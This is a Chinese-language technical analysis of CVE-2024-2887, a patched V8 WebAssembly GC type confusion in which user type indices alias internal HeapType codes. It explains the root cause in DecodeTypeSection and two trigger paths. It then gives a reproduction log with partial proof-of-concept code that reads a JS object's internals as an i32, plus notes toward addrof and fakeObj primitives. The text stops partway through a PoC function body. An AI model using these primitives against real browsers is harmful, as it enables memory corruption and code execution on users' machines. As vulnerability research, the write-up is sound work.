

# CVE-2024-2887 分析

这是 Pwn2Own 2024 上的一个获奖漏洞：Chrome / Edge 背后的 V8 WebAssembly 实现里的 Wasm GC type confusion。它的核心不是传统意义上的越界写，也不是直接修改 V8 内部的原生类型表，而是**用户可控的 Wasm type index 越过设计边界后，与 V8 内部 `HeapType` 编号发生别名**——同一个整数在两套类型判断逻辑里被解释成两种东西。

本篇先补齐 Wasm type section 的背景（它如何从函数签名表长成类型定义表、递归类型组为什么存在），再定位根因（`DecodeTypeSection` 的普通类型分支缺少一条上限检查），然后拆两条触发路径（ZDI 利用链的 `kNone + struct.new + ref.cast` 与 buptsb 最小 PoC 的 `kExtern + externref + struct.get`），最后给出本地的完整复现记录：降 `kV8MaxWasmTypes` 调试加速、公开基准 PoC、改写的 Struct A → Struct B 字段混淆 PoC，以及用 GDB 断点钉死 `IsHeapSubtypeOfImpl(1013, 0) == true` 的证据。

## 基本信息

| 项目 | 内容 |
|---|---|
| CVE 编号 | CVE-2024-2887 |
| 漏洞类型 | Wasm GC type confusion（用户 type index 与内部 HeapType 编码别名） |
| 影响组件 | V8 WebAssembly 实现（Chrome / Edge） |
| 漏洞位置 | type section 解析（`DecodeTypeSection`）与后续 `struct.new`、`ref.cast`、`struct.get` 类型检查路径的语义不一致 |
| 发现背景 | Pwn2Own 2024 获奖漏洞 |
| 修复版本 | Chrome `123.0.6312.86`（2024-03-26 稳定版） |
| 修复 CL | [crrev.com/c/5378419](https://chromium-review.googlesource.com/c/v8/v8/+/5378419) `[wasm] Check for type-definition count limit`（commit `9be3957fe9d8ff8f922411a7e2822895b190a8e3`） |
| 复现版本 | `a33e9e87328f2d92c6c861a517da661c9f86782a`（修复前父提交，Ubuntu 24.04 x64 Debug d8） |
| 复现命令 | `./out/x64.debug/d8 --allow-natives-syntax poc.js` |
| 公开分析 | [ZDI 博文](https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome)、[buptsb PoC](https://buptsb.github.io/blog/post/CVE-2024-2887%20PoC-%20v8%20WebAssembly%20type%20confusion%2C%20Pwn2Own%202024.html) |

## 漏洞概览

正常情况下，用户在 Wasm 模块里声明的类型只能使用：

```text
0 ... kV8MaxWasmTypes - 1
```

而 V8 内部保留的 heap type 从 `kV8MaxWasmTypes` 开始：

```text
kFunc = kV8MaxWasmTypes
kEq
kI31
kStruct
kArray
kAny
...
kNone
...
```

漏洞版本中，type section 解析逻辑没有在所有真实 type 分配路径上统一维护这个边界。攻击者可以让一个用户自定义 struct 的 index 落入内部 `HeapType` 编码区间。于是同一个整数在不同代码路径中会出现两种解释：

```text
module_->types[index] 视角：这是用户声明的 struct
HeapType::Representation 视角：这是 V8 内部 heap type，例如 kNone
```

后续指令只要在某个检查点把这个 index 当成内部 heap type，又在另一个执行点把它当成用户 struct type，就会形成类型混淆。ZDI 利用链走的是 `kNone + struct.new + ref.cast` 路径，buptsb PoC 走的是 `kExtern + externref + struct.get` 路径。两条路径触发方式不同，但根因相同。

## 前置知识

### type section：从函数签名表到类型定义表

早期 Wasm 的 type section 主要保存函数签名。例如：

```text
type[0] = func(i32, i32) -> i32
type[1] = func(f64) -> void
```

这些类型主要用于校验函数调用参数和返回值——`type section` 最初就是一张"函数签名表"。

Wasm GC 引入后，Wasm 不再只处理 `i32`、`i64`、`f32`、`f64` 这种简单数值类型，还可以处理引用类型（`structref`、`anyref`、`eqref`、`externref`、`funcref`……），这些引用指向的对象通常分配在堆上，所以属于"heap type"。要描述"这个对象有几个字段、每个字段什么类型、是否可变、能被哪些引用类型引用"，光靠函数签名表达不了，type section 于是被扩展成更通用的**类型定义表**：

```text
type section:
  type[0] = func(i32, i32) -> i32
  type[1] = struct { field0: i32, field1: externref }
  type[2] = array i64
```

模块解析完成后，这些定义保存在 `WasmModule::types` 中。每个元素大致包含两类信息：

```cpp
struct TypeDefinition {
    enum Kind {
        kFunction,
        kStruct,
        kArray,
        kCont,
    };

    Kind kind;
    ...
};
```

所以判断某个 type index 是否为 struct，本质上是在检查：

```text
index < module_->types.size()
module_->types[index].kind == kStruct
```

### 递归类型组（recursive type group）

普通顺序解析模型下，当前类型通常只能引用已经出现过的类型（解析器是 one-pass 的，不可能引用"还没解析出来的类型"）。这样无法自然表达互相引用的结构：

```text
A {
  next: B
}

B {
  prev: A
}
```

这就像 C 语言里不带前置声明直接写 `struct A { struct B* b; };`——B 还不存在，编不过。C 的解法是先写 `struct A; struct B;` 两个前置声明再补全定义；Wasm GC 的解法是 **recursive type group**：把多个 type 打包成一个整体定义，组内类型"同时存在"、可以互相引用：

```text
type section:
  group {
    type A
    type B
  }
```

GC 结构天然是递归的（链表、树、环），没有这个机制这些结构在 Wasm GC 里无法建模。

但这带来一个对漏洞至关重要的变化：**type section 的顶层 entry 数量不再等于真实 type 数量**：

```text
顶层 entry 数量：一个 recursive group 算 1 个
真实 type 数量：group 内每个 type 都占一个 index
```

type index 不再是简单递增数组的下标，而是 group 展开后的"逻辑索引空间"——type 数量统计变复杂、index 边界检查变复杂，`kV8MaxWasmTypes` 更容易被绕过。CVE-2024-2887 的边界检查错误正是出现在这里。

### 两套编号空间：用户 type index 与内部 HeapType

V8 需要同时表达两类 heap type：

```text
1. 用户在 Wasm type section 中声明的 heap type
2. V8 内部固定 heap type，例如 func、eq、any、none 等
```

`value-type.h` 中的内部 heap type 编号从 `kV8MaxWasmTypes` 开始：

```cpp
enum Representation : uint32_t {
    kFunc = kV8MaxWasmTypes,
    kEq,
    kI31,
    kStruct,
    kArray,
    kAny,
    kExtern,
    kExternString,
    kExn,
    kString,
    kStringViewWtf8,
    kStringViewWtf16,
    kStringViewIter,
    kNone,
    kNoFunc,
    kNoExtern,
    kNoExn,
    kBottom
};
```

这说明 V8 的设计前提是：

```text
用户 type index 必须永远小于 kV8MaxWasmTypes
```

只要这个前提成立，用户类型和内部 heap type 就不会混在一起。CVE-2024-2887 破坏的就是这个前提。

## 根因分析

相关逻辑位于 `v8/src/wasm/module-decoder-impl.h` 的 `DecodeTypeSection()`。

修复后的逻辑可以抽象为：

```cpp
uint32_t types_count = consume_count("types count", kV8MaxWasmTypes);

for each type-section entry:
    size_t initial_size = module_->types.size();
    uint32_t group_size = 1;

    if (kind == recursive_group) {
        group_size = consume_count("recursive group size", kV8MaxWasmTypes);
    }

    if (initial_size + group_size > kV8MaxWasmTypes) {
        error;
        return;
    }

    module_->types.resize(initial_size + group_size);
    decode real type definitions;
```

这个写法的关键点是：无论当前 entry 是普通 type 还是 recursive group，都先计算本次会新增多少个真实 type，再统一检查：

```text
当前真实 type 数量 + 本次新增真实 type 数量 <= kV8MaxWasmTypes
```

漏洞版本没有把这个不变量放在统一路径上。普通 type 和 recursive group 分开处理，group 分支检查了 `initial_size + group_size`，普通 type 分支缺少等价的 `initial_size + 1` 检查：

```cpp
uint32_t types_count = consume_count("types count", kV8MaxWasmTypes);

for each type-section entry:
    size_t initial_size = module_->types.size();

    if (kind == recursive_group) {
        group_size = consume_count(...);

        if (initial_size + group_size > kV8MaxWasmTypes) {
            error;
        }

        module_->types.resize(initial_size + group_size);
        decode group types;
    } else {
        // 漏洞点：缺少 initial_size + 1 <= kV8MaxWasmTypes 的检查
        module_->types.resize(initial_size + 1);
        decode single type;
    }
```

`consume_count("types count", kV8MaxWasmTypes)` 只能限制顶层 entry 数量，不能限制 recursive group 展开后的真实 type 总数。因此只限制 `types_count` 并不够。

### 最小触发布局

可以构造如下 type section：

```text
type section:
  entry[0] = recursive group {
      type[0]
      type[1]
      ...
      type[kV8MaxWasmTypes - 1]
  }

  entry[1] = 普通 struct type
```

解析过程如下：

```text
1. types_count = 2
   顶层 entry 只有两个，因此 consume_count() 通过。

2. 解析 entry[0] recursive group
   initial_size = 0
   group_size = kV8MaxWasmTypes
   initial_size + group_size == kV8MaxWasmTypes
   group 分支检查通过。

3. module_->types.size() 变成 kV8MaxWasmTypes
   合法用户 type index 已经全部用完：
   0 ... kV8MaxWasmTypes - 1

4. 解析 entry[1] 普通 struct
   漏洞版本普通分支没有检查 initial_size + 1。

5. 这个 struct 被放到 module_->types[kV8MaxWasmTypes]
   它拿到了第一个内部 HeapType 编码位置。
```

整条链路压缩成一张图：

```text
DecodeTypeSection
  → consume_count(types count, kV8MaxWasmTypes)：顶层 entry 数量通过
  → recursive group 填满 0 ... kV8MaxWasmTypes - 1
  → module_->types.size() = kV8MaxWasmTypes
  → 继续解析普通 struct
  → 普通分支缺少 initial_size + 1 检查
  → 用户 struct index 进入内部 HeapType 编码区
```

继续声明更多普通 type 后，用户 struct 的 index 可以继续推进：`kV8MaxWasmTypes`、`kV8MaxWasmTypes + 1`、`kV8MaxWasmTypes + 2`……只要推进到 `HeapType::kNone` 对应的数值，就可以让一个用户声明的 struct 与内部 `kNone` 发生编号碰撞。

注意这里发生的是**编号空间碰撞，不是内存覆盖**：

```text
同一个 uint32_t 数值
    在 module_->types 中表示用户 struct index
    在 HeapType::Representation 中表示内部 heap type
```

## 类型混淆如何兑现

### struct.new 的作用

`struct.new` 用于创建 Wasm struct 对象，它的立即数是一个 struct type index：

```text
struct.new N
```

含义是：按照 `module_->types[N]` 描述的 struct 布局，在堆上创建一个 struct 实例。类型并不是到 `struct.new` 时才确定——type section 解析阶段已经确定了"N 这个位置是不是 struct、有几个字段、每个字段什么类型、是否 mutable、父类型是谁"，`struct.new` 阶段只是验证当前指令能否使用这个 index 创建对象。

校验逻辑可以简化为：

```cpp
bool has_struct(ModuleTypeIndex index) const {
    return index.index < types.size()
        && types[index.index].kind == TypeDefinition::kStruct;
}
```

漏洞触发后，`module_->types.size()` 已经大于 `kV8MaxWasmTypes`。因此如果攻击者提前把一个用户 struct 放在 `HeapType::kNone` 对应的 index 上（`module_->types[HeapType::kNone] = 攻击者声明的 struct`），那么 `struct.new HeapType::kNone` 会通过 `has_struct()`——在 `struct.new` 的视角里，这只是一个合法的模块内 struct index，它不会额外判断这个数值是否已经落入 V8 内部 heap type 编码区。

这一步仍然没有修改 V8 内部的 `kNone`。它只是创建了一个 Wasm struct reference，而这个 reference 携带的 type index 数值刚好等于内部 `HeapType::kNone`。

### Wasm struct reference 的含义

`struct.new` 生成的结果是一个指向 Wasm struct 对象的引用。它和 JS 中的对象引用类似：

```js
let obj = { field: value };
```

这里的 `obj` 不是字段本身，而是指向对象的引用。Wasm 里的 `struct.new` 也是类似效果：

```text
struct.new type[N]
    => 在堆上分配一个 struct 对象
    => 返回一个指向该对象的 reference
```

后续 `struct.get`、`struct.set`、`ref.cast` 操作处理的都是这个 reference。漏洞利用中，`struct.new` 的作用是制造一个"真实对象"和"静态类型编号"不一致的起点：

```text
真实对象：攻击者声明的 struct
静态类型编号：数值等于 HeapType::kNone
```

### ref.cast 为什么会出问题

`ref.cast` 用于把一个引用转换成目标引用类型。正常情况下，如果静态类型信息不足以证明转换一定成功，V8 需要生成运行时类型检查。

V8 中存在一个优化判断：

```cpp
bool TypeCheckAlwaysSucceeds(Value obj, HeapType type) {
    return IsSubtypeOf(obj.type, ValueType::RefNull(type), module_);
}
```

抽象流程如下：

```cpp
case ref.cast:
    target_type = immediate heap type
    obj = Pop()

    if (TypeCheckAlwaysSucceeds(obj, target_type)) {
        Forward(obj, value);   // 省略运行时检查
    } else {
        RefCast(...);          // 生成真正的运行时检查
    }
```

当 `struct.new` 产物携带的 type index 数值等于 `HeapType::kNone` 时，`ref.cast` 的类型推理路径会按内部 `HeapType` 语义解释这个数值。

`none` 在 Wasm GC 类型层级中属于特殊的 bottom-like 类型。子类型判断看到 `kNone` 时，可能认为它可以安全流向很多引用类型。于是 `TypeCheckAlwaysSucceeds(obj, target_type) == true`，运行时检查被省略。

两条路径的解释出现分裂：

```text
struct.new 校验路径：
    index == HeapType::kNone 的数值
    查 module_->types[index]
    发现这是攻击者声明的 struct
    允许创建对象

ref.cast 类型推理路径：
    index == HeapType::kNone 的数值
    按内部 HeapType::Representation 解释
    认为这是 bottom-like 的 none
    认为 cast 一定成功
```

这就是 `kNone + struct.new + ref.cast` 路径的关键链路，画成时序：

```text
Wasm 代码                struct.new 校验             module_->types
    │                          │                          │
    │ struct.new(index=kNone)  │                          │
    │─────────────────────────>│ has_struct(index)?       │
    │                          │─────────────────────────>│
    │                          │<──── true：是用户 struct ─┘
    │<──── struct reference ───┘                          │
    │                          │                          │
    │ ref.cast(target struct)  │      ref.cast 优化        HeapType 语义
    │────────────────────────────────────────>│                │
    │                          │      按 HeapType 解释 obj.type │
    │                          │                │<──────────────│ obj.type 是 kNone
    │<──── TypeCheckAlwaysSucceeds，省略运行时检查 ────────────┘
```

### 两条触发路径

漏洞根因只提供一个能力：

```text
让用户自定义 type index 进入 V8 内部 HeapType 编码区间。
```

真正触发类型混淆时，还需要选择三个要素：

```text
1. 让哪个用户 type 撞到哪个内部 HeapType
2. 用哪条 Wasm 指令路径消费这个冲突编号
3. 让真实对象布局和目标解释布局产生差异
```

因此 CVE-2024-2887 可以通过不同路径表现出来。最需要区分的是下面两条。

**路径 A：kNone + struct.new + ref.cast（ZDI 利用链）**

类型表需要构造成：

```text
SourceStruct.index == HeapType::kNone
TargetStruct.index < kV8MaxWasmTypes
```

`SourceStruct` 是实际创建出来的对象类型，`TargetStruct` 是后续希望错误解释成的目标类型。`TargetStruct` 保持普通用户 type index，是为了让 `kNone <: TargetStruct` 这类子类型判断可以成立。一个典型字段布局：

```text
SourceStruct { field0: externref }
TargetStruct { field0: i32 }
```

触发序列与执行过程：

```text
externref(obj)
  → struct.new SourceStruct（field0 保存 externref(obj)）
  → ref.cast TargetStruct（读取源对象 heap type）
  → SourceStruct.index 数值 == kNone，源类型被解释成内部 kNone
  → 子类型判断得到 kNone <: TargetStruct，检查被省略
  → 对象被 forward 成 TargetStruct 视角
  → struct.get TargetStruct.field0 按 i32 读出 externref 的原始 bits
```

这里的关键点是：`ref.cast` 检查的是引用 heap type，不会重新比较两个 struct 的字段类型。字段类型差异正是后续构造 primitive 的来源——`externref -> i32` 形成 `addrof` 方向能力，反向构造 `i32 -> externref` 走向 `fakeObj`。

**路径 B：kExtern + externref + struct.get（buptsb 最小 PoC）**

这条路径不创建真实 Wasm struct，也不经过 `ref.cast`，而是直接让普通 JS object 作为 `externref` 进入 Wasm，再让 `struct.get` 接受这个 `externref`。

类型表需要构造成：

```text
ConfusedStruct.index == HeapType::kExtern
ConfusedStruct { field0: i32 }
```

导出函数签名写成 `(externref) -> i32`，函数体写成：

```text
local.get 0
struct.get ConfusedStruct.field0
```

执行过程：

```text
1. JS object 作为 externref 参数进入 Wasm。
2. local.get 0 后，栈顶是 externref(sb)。
3. struct.get ConfusedStruct.field0 正常要求栈顶是 ref ConfusedStruct。
4. ConfusedStruct.index 的数值等于 HeapType::kExtern。
5. 类型检查路径把目标 struct heap type 误解释成 externref 相关语义。
6. 验证阶段接受 externref(sb)。
7. 执行阶段仍按 ConfusedStruct 的字段布局读取 field0。
```

最终效果是：普通 JSObject 被 `struct.get` 当作 Wasm struct 解释，第 0 个字段按 `i32` 读出。这条路径更适合做最小 PoC，因为不需要先构造 Wasm struct，也不需要依赖 `ref.cast` 的检查消除。

| 对比点 | 路径 A：kNone / ref.cast | 路径 B：kExtern / struct.get |
| --- | --- | --- |
| 真实对象 | `struct.new` 创建的 Wasm struct | JS 传入的普通 object |
| 撞号类型 | 源 struct 撞 `kNone` | 被 `struct.get` 引用的 struct 撞 `kExtern` |
| 关键检查 | `kNone <: TargetStruct` 被判定成立 | `externref` 被接受为 `ref ConfusedStruct` |
| 关键指令 | `ref.cast` 省略运行时检查 | `struct.get` 验证错误通过 |
| 结果 | Wasm struct 字段按另一种 struct 布局解释 | JSObject 按 Wasm struct 布局解释 |

## PoC 分析

buptsb 公开的 PoC 不是完整 exploit，而是一个用于证明路径 B 可以触发的最小验证样例。它的目标很明确：

```text
1. 通过 recursive group 把真实 type 数量推到 kV8MaxWasmTypes 附近。
2. 继续声明 struct，让目标 struct 的 index 撞到 HeapType::kExtern。
3. 构造 (externref) -> i32 的导出函数。
4. 在函数体中对 externref 参数执行 struct.get。
5. 让普通 JS object 被当作 Wasm struct 读取，从而证明类型混淆成立。
```

### 运行环境：WasmModuleBuilder

PoC 使用的是 V8 测试框架里的 `WasmModuleBuilder`，不是浏览器标准 API。开头会加载：

```js
d8.file.execute(`${prefix}/test/mjsunit/wasm/wasm-module-builder.js`);
```

这一步会把 V8 mjsunit 测试环境中的辅助函数和常量加载进当前 `d8` 进程，例如：

| 符号 | 含义 |
| --- | --- |
| `WasmModuleBuilder` | 用 JS 拼 Wasm 二进制模块的测试辅助类 |
| `makeSig(...)` | 构造 Wasm 函数签名 |
| `makeField(...)` | 构造 Wasm GC struct 字段描述 |
| `kSig_i_iii` | 预定义函数签名，语义约为 `(i32, i32, i32) -> i32` |
| `kWasmExternRef` | Wasm `externref` 类型 |
| `kWasmI32` | Wasm `i32` 类型 |
| `kExprLocalGet` | `local.get` 指令 opcode |
| `kGCPrefix` | Wasm GC 扩展指令前缀 |
| `kExprStructGet` | `struct.get` 指令编号 |
| `wasmSignedLeb(...)` | 把立即数编码成 Wasm LEB128 字节序列 |

`WasmModuleBuilder` 可以理解成一个 JS 版 Wasm 汇编器：

| builder 写法 | 对应 Wasm 含义 |
| --- | --- |
| `builder.addType(...)` | 往 type section 加一个函数签名 |
| `builder.addStruct(...)` | 往 type section 加一个 GC struct 类型 |
| `builder.startRecGroup()` / `endRecGroup()` | 开始 / 结束 recursive type group |
| `builder.addFunction(name, sig)` | 往 function section 加函数 |
| `.addBody([...])` | 用 bytecode 数组写函数体 |
| `.exportFunc()` | 把函数加入 export section |
| `builder.instantiate()` | 编译并实例化模块 |

因此 PoC 表面上是 JS，实际是在用 JS 构造一个特定布局的 Wasm 模块。

### 调试版 kV8MaxWasmTypes

原始 V8 中 `kV8MaxWasmTypes` 很大（一百万）。为了让目标 type index 撞到内部 `HeapType` 编码，需要声明大量类型，模块会很大，调试也很慢。PoC 中为了调试速度，把 `kV8MaxWasmTypes` 从约 1M 改到约 1K——只需声明 1000 个左右的类型，就能把后续用户 struct 的 index 推到内部 heap type 编码区附近。

因此 PoC 里的关键数字 `1000`、`1006` 不是所有 V8 版本中的固定值，而是调试环境下的简化参数。真实漏洞利用中需要根据目标 V8 版本的 `kV8MaxWasmTypes` 和内部 `HeapType::Representation` 排列计算目标 index。

### 类型喷射：把目标 struct 推到 kExtern 编号

PoC 先把大量函数签名塞进一个 recursive group：

```js
builder.startRecGroup();
for (...) {
  builder.addType(kSig_i_iii);
}
builder.endRecGroup();
```

这段代码的目的不是为了后续调用这些函数签名，而是为了占用 type index，可以理解成 type spraying。外面包一层 recursive group 的原因是：漏洞利用需要让"真实 type 数量"增加，但顶层 type entry 数量仍然较小——recursive group 正好制造这种差异（顶层 1 个 entry，展开 1000 个真实 type）。

随后 PoC 继续添加若干个 struct 类型用于精确调整 index（`makeField(kWasmI32, true)` 表示一个可变的 `i32` 字段，等价于 Wasm 文本格式的 `(field (mut i32))`），最后再添加目标 struct。在 PoC 的调试环境中，目标 struct 拿到的 index 是 `1006`，刚好与 `HeapType::kExtern` 的内部表示冲突：

```text
module_->types[1006]      = 用户声明的 struct { mutable i32 field0 }
HeapType::Representation(1006) = 内部 externref / kExtern
```

这里和 ZDI 利用链共享的是"编号别名"这个底层机制，但具体触发路径不同：ZDI 把别名落到 `kNone`、依赖 `ref.cast` 的静态优化；这个 PoC 把别名落到 `kExtern`、依赖 `externref` 参数与 `struct.get` 的类型检查分歧。

### externref 的作用

PoC 构造的导出函数签名是：

```wat
(func (param externref) (result i32))
```

`externref` 表示宿主环境对象引用。在 JS 作为宿主时，普通 JS 对象、数组、函数等值都可以通过 `externref` 传进 Wasm：

```js
let obj = { foo: 42 };
instance.exports.main(obj);
```

正常情况下，`externref` 是 opaque host reference：Wasm 可以保存、传递这个引用，但不能把它当作 Wasm GC struct 直接读字段——`externref(JSObject)` 不能正常作为 `ref $Struct` 使用。PoC 选择 `externref` 作为入口参数，就是为了**让普通 JS object 合法跨过 JS/Wasm 边界进入 Wasm**，漏洞随后把这个 `externref` 错误用于 `struct.get`。

注意 `anyref` 不能在这里随意替换 `externref`：在 Wasm GC 语义中，`externref` 表示宿主对象引用，而 `anyref` / `(ref any)` 属于 Wasm GC 引用层级。这个 PoC 的目标是让 JS object 自然进入 Wasm，因此使用 `kWasmExternRef`。

### main 函数体：把 externref 交给 struct.get

PoC 的核心函数体：

```js
builder.addFunction("main", tFunc)
  .addBody([
    kExprLocalGet, 0,
    kGCPrefix, kExprStructGet,
    ...wasmSignedLeb(tStruct),
    0,
  ])
  .exportFunc();
```

这段不是普通 JS 函数体，而是用 JS 数组拼 Wasm bytecode，对应的伪 Wasm 文本（.wat）是：

```wat
(func $main (param externref) (result i32)
  local.get 0
  struct.get $tStruct 0)

(export "main" (func $main))
```

两个语法点需要说明。第一，函数体数组是 Wasm bytecode：

| bytecode 片段 | Wasm 语义 |
| --- | --- |
| `kExprLocalGet, 0` | 取第 0 个 local，也就是函数参数 |
| `kGCPrefix` | 后续 opcode 属于 Wasm GC 指令空间 |
| `kExprStructGet` | 执行 `struct.get` |
| `...wasmSignedLeb(tStruct)` | 写入 struct type index 的 LEB128 编码 |
| `0` | 读取第 0 个字段 |

第二，`struct.get` 后面有两个立即数：

```text
struct.get <struct_type_index> <field_index>
```

Wasm binary 的整数立即数使用 LEB128 变长编码，`1006` 不能作为单个 byte 直接写入，因此需要 `...wasmSignedLeb(tStruct)` 把返回的 byte 数组展开成 `.addBody([...])` 中的平铺 byte 列表。

函数执行时，栈变化如下：

```text
初始：                 []
local.get 0:           [externref(sb)]
struct.get tStruct 0:  [i32_value]
函数返回：              i32_value
```

其中 `sb` 是 JS 传入的普通对象：

```js
const instance = builder.instantiate();
let sb = { foo: 42 };
instance.exports.main(sb);
```

正常验证逻辑应当拒绝这段函数体，因为 `local.get 0` 的静态类型是 `externref`，而 `struct.get $tStruct 0` 要求 `ref $tStruct`——两者不是同一种引用类型。漏洞条件下，`tStruct` 的数值等于内部 `externref` heap type 编号，于是类型检查路径把 `ref $tStruct` 错误理解成 `externref` 相关类型，从而没有报错。

执行阶段却会按 `tStruct` 的真实 struct 布局读取字段：

```text
入口类型：externref
实际对象：JSObject
字段读取：struct.get $tStruct 0
解释方式：按 Wasm struct field0 读取 i32
```

完整数据流压缩为：

```text
JSObject sb
-> externref 参数
-> local.get 0 压栈
-> struct.get tStruct 0
-> tStruct index 被解释成 kExtern
-> externref 被错误接受
-> JSObject 按 Wasm struct { field0: i32 } 读取
-> 返回 i32
```

于是普通 JS object 被当作 Wasm struct 解释，返回值就是从 JSObject 内部布局里读出的一个 `i32`——这可以作为 `addrof` 类 primitive 的起点。

### 由 struct.get 到 struct.set

在获得类似 `addrof` 的读能力后，可以进一步使用 `struct.set` 触发写入，按同样的类型混淆理解：

```text
struct.get:  把 JSObject 当 WasmStruct 读 field0 → read / addrof 方向
struct.set:  把 JSObject 当 WasmStruct 写 field0 → write 方向
```

`struct.get` 证明了字段读取路径会按错误对象布局工作；构造同样类型条件下的 `struct.set`，就有机会把一个 `i32` 写入 JSObject 内部某个字段位置。后续再结合对象布局、指针压缩和 sandbox 约束，可以继续构造更完整的 `fakeObj`、AAR、AAW。注意边界：公开 PoC 主要用于证明类型混淆和 `addrof` 方向能力，并不是完整 RCE exploit。

### 调试验证点

PoC 使用 V8 native syntax（`d8 --allow-natives-syntax`，见 [V8 调试手册](V8调试手册.md)）：

```js
%DebugPrint(sb);
%DebugPrint(instance.exports.main(sb));
%SystemBreak();
```

| 语句 | 作用 |
| --- | --- |
| `%DebugPrint(sb)` | 打印 JS 对象布局、map、属性等调试信息 |
| `%DebugPrint(instance.exports.main(sb))` | 调用 Wasm 函数并打印返回值 |
| `%SystemBreak()` | 触发断点，方便 gdb/lldb 接管 |

调试时可以重点观察：`tStruct` 的数值是否等于目标内部 heap type 编号；`main` 的参数静态签名是否为 externref -> i32；`struct.get` 的输入为什么没有被验证器拒绝；返回的 i32 是否来自 JSObject 内部布局。如果要下源码断点，优先关注包含 `DecodeTypeSection`、`StructGet`、`HeapType`、`Subtype`、`TypeCheck` 关键词的路径——分别对应 type section 解析、`struct.get` 解码、heap type 表示、子类型判断和类型检查优化。

## 复现记录

下面是我在修复前提交 a33e9e8 上从零复现的完整记录：获取 V8、切换到漏洞版本、构建 Debug d8、降低调试类型上限、运行公开基准 PoC、运行修改后的 Struct A → Struct B PoC，以及 GDB 验证触发链条。结论：**已确认 Struct A → Struct B 字段类型混淆**。

### 环境与版本

复现环境为 Ubuntu 24.04 x86_64，V8 Debug 构建（`is_debug=true`、`symbol_level=2`、`v8_enable_object_print=true` 等），运行需要 `--allow-natives-syntax`；该版本的 Wasm GC 已默认开启，无需额外加 `--experimental-wasm-gc` 或 `--wasm-staging`。

版本选择的依据是修复 CL 的父子关系：

```text
官方修复 CL:   chromium-review.googlesource.com/c/v8/v8/+/5378419
修复提交:      9be3957fe9d8ff8f922411a7e2822895b190a8e3
修复前父提交:  a33e9e87328f2d92c6c861a517da661c9f86782a  ← 实际复现版本
```

### 调试加速：降低 kV8MaxWasmTypes

为了避免构造一百万个类型导致 PoC 运行和编译过慢，只修改了 `src/wasm/wasm-limits.h` 里的一个常量：

```diff
 // The following limits are imposed by V8 on WebAssembly modules.
 // The limits are agreed upon with other engines for consistency.
-constexpr size_t kV8MaxWasmTypes = 1'000'000;
+constexpr size_t kV8MaxWasmTypes = 1'000;
```

该修改只改变触发所需的类型数量，不修改 `IsHeapSubtypeOfImpl`、`TypeCheckAlwaysSucceeds`、`ref.cast` 类型规则、`struct.get`、Wasm validator、`HeapType` 常量顺序中的任何一项。因此它是 debug acceleration，不是漏洞修复，也不是人为制造类型混淆。降到 1000 之后，内部类型的实际编号变成：

```text
kFunc            = 1000
kEq              = 1001
kI31             = 1002
kStruct          = 1003
kArray           = 1004
kAny             = 1005
kExtern          = 1006
kExternString    = 1007
kExn             = 1008
kString          = 1009
kStringViewWtf8  = 1010
kStringViewWtf16 = 1011
kStringViewIter  = 1012
kNone            = 1013
```

### 公开基准 PoC 运行结果

公开 PoC（`public_externref_struct.js`，1350 字节）的关键设计：

```js
const kDebugMaxTypes = 1000;
const kExternAliasIndex = kDebugMaxTypes + 6;

builder.startRecGroup();
for (let i = 0; i < kDebugMaxTypes; i++) {
  builder.addStruct([makeField(kWasmI32, true)]);
}
builder.endRecGroup();

let targetStruct = -1;
for (let i = 0; i <= 6; i++) {
  targetStruct = builder.addStruct([makeField(kWasmI32, true)]);
}
```

recursive group 先创建 1000 个真实类型，后续追加 7 个普通 struct，最后一个的 type index = 1006 == `kV8MaxWasmTypes + 6` == `HeapType::kExtern`。导出函数声明输入是 `externref`，函数体直接 `local.get 0; struct.get targetStruct 0`。运行输出：

```text
[+] debug kV8MaxWasmTypes: 1000
[+] target type index: 1006
[+] expected kExtern alias index: 1006
[+] wasm bytes: 6106
[+] module compiled
[+] instance created
DebugPrint: 0x211b0029da5d: [JS_OBJECT_TYPE]
[+] struct.get returned i32: 1781
```

公开基准 PoC 成功：验证了 type index 越界和 kExtern alias——普通 JS object 被 `struct.get` 按 struct 字段读出了一个 i32。

### 修改版 PoC：Struct A → Struct B

修改版 PoC（`struct_to_struct_confusion.js`，2048 字节）的目标不是简单复制公开 PoC，而是验证 ZDI 路径 A 的字段混淆：

```text
实际对象仍然是 Struct A 实例
        → 由于 HeapType alias 和错误类型关系
        → 对象被允许按照 Struct B 的字段类型访问
        → 产生可观察的 Struct A -> Struct B 字段类型混淆
```

**类型设计**：

```text
Struct B:  type index 0，   field0: i32      （错误解释对象并读取数值字段）
Struct A:  type index 1013，field0: externref（实际创建对象，保存 victim JS object）
```

对应代码：

```js
const typeB = builder.addStruct([makeField(kWasmI32, true)]);

let typeA = -1;
for (let i = 0; i <= 13; i++) {
  const fields = i === 13 ? [makeField(kWasmExternRef, true)]
                          : [makeField(kWasmI32, true)];
  typeA = builder.addStruct(fields);
}
```

`typeA = 1013` 的来历：先创建 Struct B 占用 type index 0；recursive group 从 i=1 到 i<1000 创建 999 个类型，真实类型总数达到 1000；再追加 14 个普通 type，最后一个的 index = 1013 == `kV8MaxWasmTypes + 13` == `HeapType::kNone`。

**函数体设计**：

```js
builder.addFunction("read_as_b", makeSig([kWasmExternRef], [kWasmI32]))
  .addBody([
    kExprLocalGet, 0,
    kGCPrefix, kExprStructNew, ...wasmUnsignedLeb(typeA),
    kGCPrefix, kExprRefCast, ...wasmUnsignedLeb(typeB),
